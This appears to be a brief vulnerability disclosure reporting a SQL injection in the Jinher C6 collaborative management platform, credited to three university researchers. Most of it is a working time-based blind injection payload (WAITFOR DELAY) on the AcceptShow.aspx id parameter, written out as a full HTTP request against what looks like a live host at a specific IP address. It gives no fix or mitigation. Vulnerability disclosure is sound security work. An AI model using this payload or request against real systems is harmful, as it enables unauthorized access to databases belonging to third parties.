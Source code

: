# Jinher collaborative management platform by JinherNetwork has SQL injection

BUG_Author: 孙一航 广州大学，樊琦 广州大学，孙彦斌 广州大学

vendors: http://www.jinher.com/Zproducts/index/id/391

Vulnerability File: /C6/JHSoft.Web.AcceptAip/AcceptShow.aspx/?id=

Vulnerability location: /C6/JHSoft.Web.AcceptAip/AcceptShow.aspx/?id=, id

dbname =C6

[+] Payload: /C6/JHSoft.Web.AcceptAip/AcceptShow.aspx/?id=12';WAITFOR+DELAY+'0:0:2'--+-- // Leak place ---> main_event_id

```sql
GET /C6/JHSoft.Web.AcceptAip/AcceptShow.aspx/?id=12';WAITFOR+DELAY+'0:0:2'--+-- HTTP/1.1
Host: 61.133.99.56:88
Connection: close
```

![image](https://github.com/user-attachments/assets/0d30a35f-af74-4aef-9a4d-3218be7cf645)
![image](https://github.com/user-attachments/assets/74fe8eb5-e318-4cf1-9354-ceee506d7c6c)

